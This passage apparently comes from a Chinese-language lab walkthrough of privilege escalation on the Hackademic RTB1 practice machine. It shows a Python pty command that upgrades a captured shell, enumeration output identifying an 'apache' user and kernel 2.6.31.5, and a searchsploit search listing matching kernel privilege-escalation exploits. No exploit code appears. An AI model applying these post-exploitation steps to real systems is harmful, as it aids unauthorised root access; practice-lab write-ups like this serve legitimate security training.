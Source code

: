 ## 提权

1. 先用python增强shell的交互性
    
    ```php
    // 靶机shell
    python -c "import pty;pty.spawn('/bin/bash')"
    ```
    
2. 查看shell权限
    
    ```php
    // 靶机shell
    bash-4.0$ whoami
    apache
    
    bash-4.0$ dpkg -l
    bash: dpkg: command not found
    
    bash-4.0$ sudo -l
    sudo: sorry, you must have a tty to run sudo
    
    bash-4.0$ uname -a
    Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
    
    ```
    
    用户是`apache` ，`dpkg`和 `sudo` 无法使用，内核版本是`2.6.31.5` ，权限是比较低的
    
3. 因为ssh是关闭的，所以我们找密码也没有用处，看到内核版本比较老，可以尝试一下搜索内核漏洞，但是内核版本不太太详细，否则或错过一些好使的漏洞，并且过滤 “`Privilege Escalation`” - 权限提升
    
    ```php
    searchsploit Linux Kernel 2.6 | grep "Privilege Escalation"
    ```
    
    ```php
    Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation | solaris/local/15962.c
    Linux Kernel 2.2.25/2.4.24/2.6.2 - 'mremap()' Local Privilege Escalation  | linux/local/160.c
    Linux Kernel 2.4.x/2.6.x - 'uselib()' Local Privilege Escalation (3)      | linux/local/895.c
    Linux Kernel 2.4/2.6 - 'sock_sendpage()' Local Privilege Escalation (3)   | linux/local/9641.txt
    Linux Kernel 2.6.0 < 2.6.31 - 'pipe.c' Local Privilege Escalation (1)     | linux/local/33321.c
    Linux Kernel 2.6.10 < 2.6.31.5 - 'pipe.c' Local Privilege Escalation      | linux/local/40812.c
    Linux Kernel 2.6.13 < 2.6.17.4 - 'sys_prctl()' Local Privilege Escalation | linux/local/2004.c
    Linux Kernel 2.6.13 < 2.6.17.4 - 'sys_prctl()' Local Privilege Escalation | linux/local/2005.c
    Linux Kernel 2.6.13 < 2.6.17.4 - 'sys_prctl()' Local Privilege Escalation | linux/local/2006.c
    Linux Kernel 2.6.13 < 2.6.17.4 - 'sys_prctl()' Local Privilege Escalation | linux/local/2011.sh
    Linux Kernel 2.6.17 - 'Sys_Tee' Local Privilege Escalation                | linux/local/29714.txt
    Linux Kernel 2.6.17 < 2.6.24.1 - 'vmsplice' Local Privilege Escalation (2 | linux/local/5092.c
    Linux Kernel 2.6.17.4 - 'proc' Local Privilege Escalation                 | linux/local/2013.c
    Linux Kernel 2.6.18 < 2.6.18-20 - Local Privilege Escalation              | linux/local/10613.c
    Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privilege Escalation         | linux/local/50135.c
    Linux Kernel 2.6.23 < 2.6.24 - 'vmsplice' Local Privilege Escalation (1)  | linux/local/5093.c
    Linux Kernel 2.6.28/3.0 (DEC Alpha Linux) - Local Privilege Escalation    | linux/local/17391.c
    Linux Kernel 2.6.32 - 'pipe.c' Local Privilege Escalation (4)             | linux/local/10018.sh
    Linux Kernel 2.6.36-rc8 - 'RDS Protocol' Local Privilege Escalation       | linux/local/15285.c
    Linux Kernel 2.6.x - 'pipe.c' Local Privilege Escalation (2)              | linux/local/33322.c
    Linux Kernel 2.6.x - Ext4 'move extents' ioctl Privilege Escalation       | linux/local/33395.txt
    Linux Kernel 2.6.x - Ptrace Privilege Escalation                          | linux/local/30604.c
    Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                | linux/local/41886.c
    Linux Kernel < 2.6.11.5 - BlueTooth Stack Privilege Escalation            | linux/local/4756.c
    Linux Kernel < 2.6.22 - 'ftruncate()'/'open()' Local Privilege Escalation | linux/local/6851.c
    Linux Kernel < 2.6.28 - 'fasync_helper()' Local Privilege Escalation      | linux/local/33523.c
    Linux Kernel < 2.6.29 - 'exit_notify()' Local Privilege Escalation        | linux/local/8369.sh
    Linux Kernel < 3.16.1 - 'Remount FUSE' Local Privilege Escalation         | linux/local/34923.c
    Linux Kernel < 3.4.5 (Android 4.2.2/4.4 ARM) - Local Privilege Escalation | arm/local/31574.c
    Linux kernel < 4.10.15 - Race Condition Privilege Escalation              | linux/local/43345.c
